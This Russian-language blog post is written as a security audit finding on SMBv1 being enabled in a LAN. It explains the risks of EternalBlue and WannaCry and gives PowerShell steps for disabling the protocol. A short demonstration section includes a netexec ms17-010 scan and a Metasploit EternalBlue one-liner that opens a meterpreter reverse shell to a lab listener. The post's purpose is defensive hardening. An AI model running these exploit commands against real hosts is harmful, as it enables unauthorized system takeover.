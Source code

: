 ```yaml
---
layout: post
title:  "Protected users"
categories: jekyll update
image: /images/HR001_NSA.jpg
---
```


Об ограничении использования протокола SMB v1

#### Недостаток
На ряде объектов ЛВС используется небезопасный протокол SMB v1.

#### Рекомендации
Ограничить использование в ЛВС протокола SMB v1. Рассмотреть возможность перехода на протоколы SMB v2/3.

#### Комментарии
Включенный SMBv1 — это серьезная угроза безопасности. Этот устаревший протокол разработан более 30 лет назад, и его уязвимости широко известны злоумышленникам. 

Если SMBv1 активен, злоумышленник может:  
**1. Использовать эксплойты**:  
   - Один из самых известных примеров — **EternalBlue**, эксплойт, который стал основой для распространения таких атак, как **WannaCry** и **NotPetya**. Эти атаки нанесли ущерб на миллиарды долларов, выводя из строя больницы, корпорации и государственные учреждения.  
   - Эксплойт позволяет злоумышленнику получить полный доступ к системе без авторизации.  

**2. Распространение по сети**:  
   - Атаки, использующие SMBv1, часто имеют червеподобный характер, что означает, что после компрометации одного устройства злоумышленник может быстро проникнуть на другие системы в вашей сети.  
   - Это особенно опасно для корпоративных сетей, где устройства могут быть взаимосвязаны.  

**3. Кража данных**:  
   - С помощью доступа через SMBv1 злоумышленник может перехватывать файлы, пароли и другую конфиденциальную информацию, что приводит к утечкам данных.  

**4. Запуск удаленного кода**:  
   - SMBv1 позволяет злоумышленнику запускать вредоносные программы или команды, фактически захватывая управление над системой.  

Для злоумышленника работающий SMBv1 — это как старая дверь с разбитым замком: она легко открывается, даже если остальная часть дома защищена.

#### Почему это критично?  
Атаки через SMBv1 особо опасны потому, что:  
- **Быстрая масштабируемость**: Одна уязвимая система может привести к компрометации всей сети.  
- **Невидимость**: В некоторых случаях атаки могут проходить незамеченными, особенно в poorly monitored environments.  
- **Непрямые последствия**: Утечка данных или отказ оборудования могут привести к финансовым потерям, репутационным рискам или даже уголовным расследованиям.  

Используя эксплойт EternalBlue злоумышленник может получить административный доступ к хосту с включенным протоколом SMB v1.

```
netexec smb 192.168.56.202 -M ms17-010
```

![](/images/smb_v1/Pasted%20image%2020241208155045.png)

```
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set rhosts 192.168.56.202; set LHOST 192.168.56.200; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```

![](/images/smb_v1/Pasted%20image%2020241208155510.png)

#### Что делать?  
Отключение SMBv1 — это простой шаг, который может предотвратить катастрофу.  

**1. Проверить текущий статус SMBv1**:  
   На Windows-сервере или рабочей станции выполните команду в PowerShell:  
   ```powershell
   Get-WindowsFeature -Name FS-SMB1
   ```  
   Если SMBv1 включен, статус будет отображаться как *Installed*.  

**2. Отключить SMBv1**:  
   Выполните следующую команду в PowerShell:  
   ```powershell
   Disable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol" -NoRestart
   ```  

**3. Перезагрузите систему**, чтобы изменения вступили в силу.  

**4. Если в сети есть старые устройства, зависящие от SMBv1 (например, устаревшие сканеры), разработайте план их модернизации или замены.** 

#### Что видит злоумышленник после отключения SMBv1?  
Когда SMBv1 отключен:  
- При сканировании порта 445 я увижу, что SMB работает только на современных версиях (SMBv2 или SMBv3). Эти версии имеют встроенные механизмы защиты, такие как шифрование и аутентификация.  
- Эксплойты для SMBv1, такие как EternalBlue, больше не работают, что устраняет один из самых популярных методов атаки.  
- Моя атака замедлится или станет невозможной. Это заставит меня искать более сложные и менее очевидные уязвимости.

![](/images/smb_v1/Pasted%20image%2020241208162809.png)

В Windows 7 SMB v1 можно отключить  создав в реестре параметр `DWORD (32 бита)` в ветке реестра `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters`

#### Вывод:  
Оставлять SMBv1 включенным — это как оставить открытой дверь для злоумышленников. Вы теряете контроль над безопасностью сети, подвергая себя финансовым, репутационным и техническим рискам.  
Отключение SMBv1 — это быстрый и важный шаг, который моментально повышает защиту вашей инфраструктуры.  

Дополнительные ресурсы:

1. https://learn.microsoft.com/ru-ru/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server
2. https://habr.com/ru/companies/servermall/articles/331906/
3. https://codeby.school/blog/informacionnaya-bezopasnost/ekspluataciya-uyazvimostey-klassa-ms17-010


Картинка
https://valiant.fandom.com/wiki/National_Security_Agency